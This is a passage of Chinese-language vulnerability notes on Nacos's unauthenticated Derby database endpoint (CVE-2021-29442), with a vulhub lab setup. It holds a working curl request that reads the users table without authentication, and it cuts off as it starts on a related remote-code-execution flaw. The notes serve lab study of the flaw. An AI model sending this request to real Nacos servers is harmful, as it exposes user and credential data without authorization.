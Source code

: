 若 Nacos 启用了 Derby DB 作为后端的 Storage，则攻击者可直接未授权访问进行 API 操作。

Derby DB 是一种轻量级的开源关系数据库管理系统（RDBMS），由 Apache 软件基金会开发和维护。它以 Java 编写，支持标准的 SQL 查询，并可以嵌入到 Java 应用程序中使用。

受影响版本：`<=1.4.0`

### 漏洞环境

```bash
cd vulhub/nacos/CVE-2021-29442
docker compose up -d
```

### 漏洞利用

`/nacos/v1/cs/ops/derby` 接口说明：此接口并非 SQL 注入漏洞，而是专为 Derby 数据库运维设计，允许查询数据库数据以辅助问题排查。

```bash
curl -X GET http://127.0.0.1:8848/nacos/v1/cs/ops/derby?sql=select%20*%20from%20users
```

![nacos-derby-sqli](../images/nacos-derby-sqli.png)

### 参考资料

- <https://github.com/alibaba/nacos/issues/4463>

## Nacos Derby 远程命令执行漏洞（QVD-2024-26473）

这个漏洞实际上可以被视为 **CVE-2021-29442** 的更深层次利用。在之前的分析中，我们提到 Derby 的未授权 SQL 注入漏洞主要利用了 `/derby` 这个路由，但该漏洞限制了 SQL 语句必须以 `SELECT` 开头，这意味着单靠查询语句无法实现远程代码执行（RCE）。
